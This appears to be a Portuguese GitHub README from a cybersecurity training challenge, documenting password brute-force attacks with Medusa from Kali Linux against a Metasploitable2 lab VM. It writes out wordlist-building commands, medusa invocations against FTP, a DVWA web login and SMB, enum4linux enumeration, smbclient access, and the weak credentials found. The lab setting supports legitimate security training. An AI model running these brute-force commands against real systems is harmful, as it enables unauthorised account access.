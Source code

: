 # Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux
Desafio Santander Cybersegurança 2025

Nessa fase do Treinamento, aprofundamos um pouco mais sobre as ferramentas de ataque de força bruta, com lista de usuários e senhas em um arquiv.

# AMBIENTE
Meu ambiente está rodando em um Vmware Esxi, com uma rede totalmente separada da rede local, com o endereço dos hosts sendo 192.168.222.35, sendo 1 máquina com o Kali linux, (figura1) no diretório images, e uma máquina com o metasplitable2 (figrura2), com o ip 192.168.222.3. Imagem do teste de conectividade disponível na pasta imagens com o nome (giruta3)

# ATAQUE A SERVIÇO FTP
# CRIAÇÃO DOS ARQUIVOS 
Feito a criação do arquivo de usuários e senhas (Wordlists) para o teste, foi utilizado os comandos abaixo, ilustrado na imagem (figura4).

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

# Excutando o ataque com o comando abaixo:

medusa -h 192.168.222.3 -U users.txt -P pass.txt -M ftp -t 6
Onde o parametro -h especifica o host destino, o -U informa o arquivo com a lista de usuários, o - P informa o arquivo com a lista senhas, -M informa o módulo a ser utilizado, no caso o FTP, e o -t para abrir ne exemplo 6 conexões simultâneas.

A saída do comendo confirma uma combinação de usuário e senha como Usuário msfadmin e senha msfadmin, ilustrado na imagem (figura5).

# Efetuando o acesso para ver se a combinação realmente está funcionando.

Acesso concedido conforme imagem (figura6).

# ATAQUE A PÁGINA WEB COM WORDLISTS


Nesse caso iremos criar os arquivos com os usuário e as senhas conforme feito para o teste de ataque ao serviço de FTP, usamos os mesmos comandos.

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

Após gerar os arquivos, iremos ao ataque de fato.

Iremos usar o coamnado abaixo para ralizar as tentativas de acesso ao site em questão, ilustrado na figura7.

medusa -h 192.168.222.3 -U users.txt -P pass.txt -M http \
-m PAGE:'dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^$Login=login' \
-m 'FAIL=Login failed' -t 6

Após a execução do comando, pudemos ver entre as senhas testadas que o usuário admin e a senha password foi válida para acesso ao site, conforme imagem8.
Na imagem9 podemos ver o site aberto e com o acesso feito com o usuário e senha em questão.

# ATAQUE SERVIÇO SMB

Vamos começar rodando o comando enum4linux -a 192.168.222.3 | tee enum4_output.txt

Com o comando obtivemos várias informações sobre o host em questão, conforme ilustrado na imagem10.

Vamos criar os aquivos de usuário e senha para realizar o ataque, com os comandos abaixo:
  echo -e "user\nmsfadmin\nservice" > smb_users.txt
  echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

Arquivos ilustrados na imagem11.

Agora vamos ao ataque propriamente digo, utilizando o comando abaixo:

medusa -h 192.168.222.3 -U smb_users.txt -P senhas_spray -M smbnt -t2 -T 50 onde:
  -h host albo
  -U indica qual arquivo ele vai buscar os usuários
  -P indica qual arquivo ele vai buscar as senhas
  -M indica o módulo que vai ser usado, no caso o módulo smbnt
  -t número de tentativas simultâneas, no caso 2
  - T hosts em paralelo

Executando o comando temos a saída ilustrada na imagem12.
Analisando a saída do comando percebemos que temos uma saida AACOUNT FOUND com o usuário msfadmin e senha msfadmin, na qual será usada para acesso ao compartilhamento de rede.

Agora iremos testar o acesso ao compartilhamento no host destino com o comando abaixo:

smbclient -L //192.168.222.3 -U msfadmin e posteriormente colocando a senha msfadmin.
Processo ilustrado na imagem13.

Com isso finalizamos o desafio, obtendo ótimos aprendizados.
